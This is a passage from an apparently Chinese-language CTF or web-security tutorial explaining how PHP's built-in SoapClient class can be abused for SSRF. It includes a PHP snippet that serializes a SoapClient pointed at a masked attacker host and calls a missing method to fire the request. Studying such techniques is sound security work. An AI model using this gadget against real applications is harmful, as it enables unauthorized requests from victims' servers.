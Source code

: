执行便可得到flag：

#### 使用 SoapClient 类进行 SSRF

##### SoapClient 类

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

类摘要如下：

```php
    SoapClient {
        /* 方法 */
        public __construct ( string|null $wsdl , array $options = [] )
        public __call ( string $name , array $args ) : mixed
        public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
        public __getCookies ( ) : array
        public __getFunctions ( ) : array|null
        public __getLastRequest ( ) : string|null
        public __getLastRequestHeaders ( ) : string|null
        public __getLastResponse ( ) : string|null
        public __getLastResponseHeaders ( ) : string|null
        public __getTypes ( ) : array|null
        public __setCookie ( string $name , string|null $value = null ) : void
        public __setLocation ( string $location = "" ) : string|null
        public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
        public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
    }
```

可以看到，该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call`
方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。

该类的构造函数如下：

`public SoapClient :: SoapClient(mixed $wsdl [，array $options ])`

* 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
* 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

##### 使用 `SoapClient` 类进行 SSRF

知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的location选项设置为target_url。

```php
    <?php
    $a = new SoapClient(null,array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333'));
    $b = serialize($a);
    echo $b;
    $c = unserialize($b);
    $c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
    ?>
```
